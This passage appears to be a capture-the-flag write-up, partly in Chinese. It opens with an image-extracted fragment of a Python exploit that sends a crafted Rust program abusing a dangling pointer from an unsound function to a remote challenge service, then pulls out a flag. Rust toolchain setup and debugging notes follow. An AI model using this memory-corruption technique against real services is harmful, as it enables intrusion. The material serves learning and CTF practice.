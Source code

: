 ```python
            impl Service for State {
                fn handle(&mut self, a: &str) {
                    let mut pa;
                    {
                        // 0x60
                        let mut b = Vec::new();
                        for i in 0..0x60 {
                            b.push(String::from("aaaaa"));
                        }
                        pa = bad(&b);
                        log!("{:p}", pa); // 0x00005555555adb00 -> (raw_ptr, len, capability)
                    }
                    log!("{:p}", pa); // 0x00005555555adb00 -> 0
                    {
                        // 0x20
                        let mut x: Vec<i64> = Vec::new();
                        for i in 0..0xb0 {
                            x.push(0x10);
                        }
                        let m = x.as_ptr() as i64;
                        x.push(m - 0x000f00 - """ + str(off) + """);
                        log!("{:x}", m);
                        log!("{:p}", &x);
                        log!("{:?}", pa[2]);
                    }
                }
            }
    """ + "\nEOF\n"
    r.send(payload)
    r.recvuntil('===== Testing edge compute app...')
    flag += r.recvuntil('\n===== Test complete!', drop=True).split(b'\n')[-1].replace(b'"', b'')
    r.close()

print(flag)
```



- [setup environ + document](https://doc.rust-lang.org/cargo/getting-started/installation.html)
  - **cargo**: the package manager and create host for rust
    - install: `curl https://sh.rustup.rs -sSf | sh`
    - `Cargo.toml`: 一個 manifest (清單)，可以在內指定不同 metadata 的 file (自己寫)
    - `Cargo.lock`: 包含有相關 dependency 的資訊，由 Cargo 本身維護/更新
  - nightly
    - 特定版本 (rust 1.47.0 + nightly) install: `rustup toolchain add nightly-2020-07-23 --profile minimal`
    - `rustup toolchain list -v` 可以看 toolchain 的位置
    - `rustup toolchain remove <toolchains>`: 解除安裝
  - `rustc`: rust compiler
- 使用 pwngdb debug rust 時 u16 會找不到，可以用 `set language c` -> `set language rust` 來解決
- [github search](https://docs.github.com/en/github/searching-for-information-on-github/searching-on-github/searching-issues-and-pull-requests) 增加搜尋速度
  - `unsound` / `bug` tag 與安全/功能相關

